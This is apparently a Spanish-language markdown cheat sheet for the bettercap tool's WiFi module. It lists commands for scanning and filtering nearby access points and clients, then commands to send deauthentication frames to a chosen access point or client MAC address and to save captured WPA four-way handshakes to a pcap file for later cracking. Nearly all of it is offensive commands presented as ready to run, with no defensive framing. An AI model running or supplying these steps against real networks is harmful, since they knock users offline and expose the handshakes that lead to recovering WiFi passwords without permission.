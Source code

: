 ### Reconocimiento
```bash
wifi.recon on
```

#### Visualizacion / Filtros
```bash
# Especific Channels
wifi.recon.channel 6,11
```
```bash
# Especific BSSID
wifi.recon AA:BB:CC:DD:EE:FF
wifi.show
```
```bash
wifi.show
```
```bash
set wifi.show.sort clients desc
```
```bash
set wifi.show.filter "WPA"
```
```bash
set wifi.show.filter ^c0
wifi.show
```
#### Automatizacion
```bash
set ticker.commands "clear; wifi.show"
```
```bash
wifi.recon on
```
```bash
ticker on
```
```bash
sudo bettercap -iface wlan0 -eval "set ticker.commands 'clear; wifi.show'; wifi.recon on; ticker on"
```
```bash
set wifi.show.filter ""
```
```bash
set wifi.rssi.min -49
wifi.show
```
### Deautenticacicon

```bash
# Especific AP BSSID
wifi.deauth AA:BB:CC:DD:EE:FF
```
```bash
# Especific Client MAC Address
wifi.deauth GG:HH:II:JJ:KK:LL
```
```bash
# Obtiene el archivo de handshakes
get wifi.handshakes.file 
# result
wifi.handshakes.file: '~/bettercap-wifi-handshakes.pcap'
# Set handshake output 
set wifi.handshakes.file "/home/kali/handshakes/"

# Envía los protocolos de enlace de 4 vías a una carpeta
```